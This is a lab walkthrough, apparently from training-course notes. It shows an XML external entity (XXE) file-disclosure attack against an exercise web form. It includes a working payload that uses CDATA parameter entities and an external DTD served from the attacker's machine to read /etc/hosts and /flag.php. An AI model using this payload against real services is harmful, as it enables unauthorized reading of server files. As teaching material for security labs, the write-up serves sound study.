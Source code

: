 # Advanced File Disclosure

#### Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').



**Step 1** - Get the XML data

* Fill the form click on **Send Message**.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Capture the POST Request and send it with Repeater

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Like the last exercise, we can see the value of the tag `email`  being reflected on the Response. This time to extract the data, we'll wrap the content of the external file reference with a `CDATA` .

Since XML prevents joining internal and external entities, we have to come around with a solution. To bypass this limitation we can use `XML Parameter Entities`. This is a special type of entity that starts with `%` character and con only be used with DTD.

To do that lets create a file in our working environment call it **xxe.dtd**. File content:

```bash
<!ENTITY joined "%begin;%file;%end;">
```

Then in the same directory we start a python server:

```bash
python3 -m http.server 8000
```

Lets add our XML code and try to read a common file like the **etc/hosts**:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///etc/hosts"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
```

Make sure to add your machine IP, and add the **\&joined,** reference to the email tags.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

As we can see, we retrieve the content of the **/etc/hosts** and we even got the logs on the attack machine.

Now, if you struggle to find the flag.php file, maybe it's because you were looking at the `var/www/html` directory. But the file is actually located at the root, so we have to reference it like this `file:///flag.php`

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

And if we send the POST Request we are able to read the **flag.php** file and retrieve the flag!

